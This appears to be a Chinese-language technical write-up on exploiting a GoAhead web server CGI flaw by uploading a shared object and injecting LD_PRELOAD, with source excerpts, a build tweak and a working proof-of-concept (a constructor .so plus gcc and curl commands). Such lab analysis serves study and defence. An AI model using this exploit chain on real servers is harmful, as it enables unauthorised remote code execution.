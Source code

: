 注意，新版本的GoAhead默认没有开启CGI，而老版本如果没有cgi-bin目录，或者里面没有cgi文件，也不受这个漏洞影响

旧的洞是通过设置`LD_PRELOAD=/proc/self/fd/0` 同时将恶意.so作为body传入，做到rce的效果，而这里我们需要在body中发送，所以我们选择提前在服务器上上传.so，之后再把`LD_PRELOAD`设置为这个文件的路径

与PHP一样，GoAhead在遇到上传内容时会存在临时文件，不过这里的坑在于临时文件的目录配置

```c++
#ifndef ME_GOAHEAD_UPLOAD_DIR
    #define ME_GOAHEAD_UPLOAD_DIR "tmp"
#endif

PUBLIC void websUploadOpen(void)
{
    uploadDir = ME_GOAHEAD_UPLOAD_DIR;
    if (*uploadDir == '\0') {
#if ME_WIN_LIKE
        uploadDir = getenv("TEMP");
#else
        uploadDir = "/tmp";
#endif
    }
    trace(4, "Upload directory is %s", uploadDir);
    websDefineHandler("upload", 0, uploadHandler, 0, 0);
}
```

如果宏`ME_GOAHEAD_UPLOAD_DIR`没有定义，则`uploadDir=/tmp`，而这个宏一定不为空，所以直接就是`tmp`，这个相对目录取决于pwd，而pwd是GoAhead启动时`--home`参数指定的，是存放配置文件的目录

如果`--home /etc/goahead`，那临时文件默认在`/etc/goahead/tmp`，如果这个目录不存在或者不可写，那么就会出现上传时500，一旦目标没有正常配置这个目录，就无法攻击（或者参见pbCTF2021 advancement的wp，使用python

这里直接修改Dockerfile来指定临时文件目录

```dockerfile
make SHOW=1 ME_GOAHEAD_UPLOAD_DIR="'\"/tmp\"'"
```

尝试hello world

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

```bash
$ gcc -shared -fPIC hello.c -o hello.so
$ curl -v -F data=@hello.so -F "LD_PRELOAD=/proc/self/fd/7" "url/cgi-bin/test" -i
```
